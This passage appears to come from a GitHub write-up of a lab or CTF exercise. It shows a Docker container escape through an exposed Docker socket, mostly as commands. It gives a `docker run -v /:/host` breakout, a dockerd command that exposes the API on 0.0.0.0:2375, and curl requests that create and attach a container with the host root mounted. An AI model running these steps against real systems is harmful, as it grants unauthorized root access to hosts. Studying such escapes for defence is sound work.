 ![image](https://github.com/user-attachments/assets/5481d2d4-6178-4b9e-a3a7-058814ad3994)

- Check if docker is running on the container,luckily for me,docker was running on this container.Exploiting it wiht docker will be easy

![image](https://github.com/user-attachments/assets/c7c0e776-dd84-49d8-acf1-a1289bd9e19c)

- Exploit with `docker run -v /:/host -it <image name>`,the exploitation process relies on spawning a container with the host file system mounted in it and the great plus is that we will be breaking out as root.he filesystem will be mounted in directory `/host`.

![image](https://github.com/user-attachments/assets/f4cd3f49-9b8d-4b20-8d03-e18029e48436)

### or Exploiting with curl and nc

- I used curl in this example,you can either communicate with docker api with http or as a file with `--unix-socket` option with curl.
- Run `dockerd -H unix:///var/run/docker.sock -H tcp://0.0.0.0:2375` to access via http
- Or use curl-:
```bash
curl -i -s --unix-socket /run/docker.sock http://localhost/containers/json
```

![image](https://github.com/user-attachments/assets/3ed1877e-2110-46a6-8f82-e256e17159e6)

- We will be replicating the docker api `run` command to create,start and attach a container.Don't forget to switch the json key `image` to the available one.You can check the dockerfile for an available image.Don't forget the id,it is required to check run the container.

```bash
curl -i -s --unix-socket /run/docker.sock -X POST http://localhost/containers/create \
-H "Content-Type: application/json" -d '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "openjdk:11","Volumes": {"/hostfs/": {}},"HostConfig": {"Binds": ["/:/hostfs"]}}'
```

![image](https://github.com/user-attachments/assets/0d90d4da-607b-440b-9c64-769d92e00175)

- Start the container

```bash
curl -i -s --unix-socket /run/docker.sock -X POST http://localhost/containers/<id>/start
```

![image](https://github.com/user-attachments/assets/43de9628-97b3-4317-bc6a-ba6ee73c7ec0)

- Attach the process

```bash
curl -i -s --unix-socket /run/docker.sock -X POST http://localhost/containers/09832b2e10c61ffd863fe4c8a50e07d820cd9150af7e3bfd6be7b7400c9f7c94/attach\?stream\=1\&stdin\=1\&stdout\=1\&stderr\=1
```

-------------

